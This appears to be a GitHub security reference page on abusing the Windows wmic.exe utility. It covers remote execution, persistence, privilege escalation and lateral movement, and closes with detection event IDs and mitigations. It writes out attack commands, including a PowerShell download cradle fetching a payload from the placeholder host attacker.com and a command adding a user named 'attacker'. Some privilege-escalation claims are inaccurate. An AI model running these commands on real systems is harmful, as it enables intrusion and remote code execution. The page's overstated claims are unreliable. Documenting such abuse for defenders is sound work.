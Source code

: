 # wmic.exe
## What is it?
*```wmic.exe``` (Windows Management Instrumentation Command-line) is a built-in Windows command-line tool that allows administrators and users to interact with Windows Management Instrumentation (WMI) for managing and querying system information and configuration.*
*WMIC can be used to retrieve detailed system data, configure system settings, and manage hardware, software, and network components, making it a powerful tool for system administration.*

## Legitimate Usage
- **System Configuration Management** → Query and configure various system settings like user accounts, system hardware, and installed software.
- **Automation of System Tasks** → Use WMIC in scripts to automate administrative tasks such as service management and disk cleanup.
- **Hardware Information Retrieval** → Query detailed information about hardware components like CPUs, memory, and hard drives.
- **Software Installation and Management** → Use WMIC to install or uninstall software packages from the command line.
- **User and Group Management** → Create, modify, or delete user accounts and groups via WMIC.

## How to abuse it
- **Remote Command Execution** → Attackers can use ```wmic.exe``` to execute commands remotely on other systems, often bypassing network defenses and firewalls.
- **Persistence via WMI Event Subscription** → Attackers can use WMI to set up persistent remote access, where commands or malicious payloads are triggered by system events.
- **Privilege Escalation** → WMIC can be used to invoke elevated commands, run processes with SYSTEM privileges, or alter security settings.
- **Bypass Security Tools** → Since ```wmic.exe``` is a legitimate Windows utility, attackers can use it to bypass detection by security software, as it may not be flagged.
- **Lateral Movement** → Attackers can use WMIC to propagate malicious code across a network by executing commands on other machines.

## Example attacks
### 1. Remote Code Execution (RCE) via WMIC
*Attackers can use ```wmic.exe``` to execute commands on remote machines without needing direct access to them.*

**Run a Command on a Remote Machine**

```
wmic /node:192.168.1.100 process call create "cmd.exe /c calc.exe"

wmic os get /FORMAT:"file.xsl"

wmic process call create "powershell -enc <base64_payload>"

wmic /node:"targetPC" process call create "cmd.exe /c calc.exe"
```

*Calculator is spawned by svchost.exe:*

![image](https://github.com/user-attachments/assets/9be8f30e-5e05-42e4-a813-a53fb1fc436a)

**Effect:**
- Executes the Calculator application (`calc.exe`) remotely on the target machine, showing that the attacker can run arbitrary commands remotely.

### 2. Persistence via WMI Event Subscription
*Attackers can create a WMI event subscription that triggers a malicious payload whenever a specific system event occurs.*

**Create WMI Event Subscription for Persistence**

```
wmic /namespace:\root\subscription path __EventFilter create Name="MyEventFilter", EventNamespace="root\cimv2", Query="SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_Process'"
```

**Effect:**
- The attacker sets up an event that listens for a process creation and can trigger a malicious payload whenever this event occurs, providing persistence.

### 3. Privilege Escalation via WMIC
*Attackers can invoke commands with elevated privileges using ```wmic.exe``` to escalate their privileges on a compromised system.*

**Run a Command as SYSTEM**

```
wmic process call create "cmd.exe /c net user attacker Password /add"
```

**Effect:**
- Creates a new user (`attacker`) with elevated privileges by running the command as SYSTEM, enabling the attacker to maintain access to the system.

### 4. Lateral Movement via WMIC
*An attacker can use WMIC to execute commands on other machines in the network and spread malicious tools or code.*

**Execute a Command on a Remote Machine**

```
wmic /node:192.168.1.50 process call create "cmd.exe /c powershell -exec bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
```

**Effect:**
- This command executes a PowerShell script on a remote machine to download and run a malicious payload, effectively allowing lateral movement across a network.

### 5. Bypassing Security Detection
*Since WMIC is a legitimate utility, it is often overlooked by traditional security tools, making it useful for evading detection.*

**Running WMIC to Bypass Detection**

```
wmic /node:localhost process call create "cmd.exe /c start http://attacker.com/malware.exe"
```

**Effect:**
- Executes a malicious command that could potentially download and execute malware, leveraging WMIC's legitimate status to bypass security tools.

# Detection & Mitigation
## Detection Methods
**Monitor WMIC Activity**
- **Event ID 4688 (Process Creation)** → Detect the use of ```wmic.exe``` to execute suspicious commands.
- **Event ID 4703 (Privilege Use)** → Track attempts to use elevated privileges via WMIC.
- **Monitor Remote Execution** → Track unusual remote command executions (e.g., ```wmic /node:```).

**Monitor for WMI Event Subscriptions**
- **Event ID 5861 (WMI Event Filter Created)** → Detect the creation of WMI event filters that may indicate persistence attempts.

**Monitor Network Connections**
- **Event ID 5156 (Filtering Platform Connection)** → Detect WMIC traffic that could indicate lateral movement or remote execution attempts.

## Mitigation Strategies
- **Restrict WMIC Access** → Limit who can use WMIC by using group policies or restricting access to specific users or administrators.
- **Use Application Whitelisting (AppLocker)** → Prevent unauthorized applications from running, including malicious uses of WMIC.
- **Audit Process Creation** → Enable auditing for process creation and monitor Event ID 4688 to identify the misuse of WMIC.
- **Block Remote Access to WMIC** → Use firewall rules or network segmentation to block remote WMIC access.
- **Use Endpoint Detection and Response (EDR)** → Deploy EDR solutions to monitor for suspicious activity associated with WMIC commands.

